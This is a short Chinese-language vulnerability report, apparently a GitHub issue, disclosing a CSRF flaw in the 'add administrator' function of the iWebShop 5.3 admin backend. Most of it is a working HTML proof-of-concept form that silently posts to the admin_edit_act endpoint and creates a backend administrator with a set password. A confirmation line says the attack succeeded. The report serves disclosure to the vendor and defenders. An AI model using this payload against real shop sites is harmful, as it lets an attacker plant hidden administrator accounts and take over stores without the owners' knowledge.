 **iWebShop5.3后台存在CSRF漏洞**

1.在`管理员`->`添加管理员`功能处存在CSRF漏洞

！[image](http://wx2.sinaimg.cn/mw690/0060lm7Tly1g0vg867mdmj30tz0nt75j.jpg)
POC

`<html>`

  <body>

  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.138.132/iw/index.php?controller=system&action=admin_edit_act" method="POST">
      <input type="hidden" name="id" value="" />
      <input type="hidden" name="admin&#95;name" value="test" />
      <input type="hidden" name="password" value="test888" />
      <input type="hidden" name="repassword" value="test888" />
      <input type="hidden" name="role&#95;id" value="0" />
      <input type="hidden" name="email" value="1&#64;qq&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
  `</body>`
`</html>`

验证

![image](http://wx1.sinaimg.cn/mw690/0060lm7Tly1g0vg868y55j31ef0il0v8.jpg)

发现可以添加后台管理员

官网链接

`http://www.aircheng.com/`

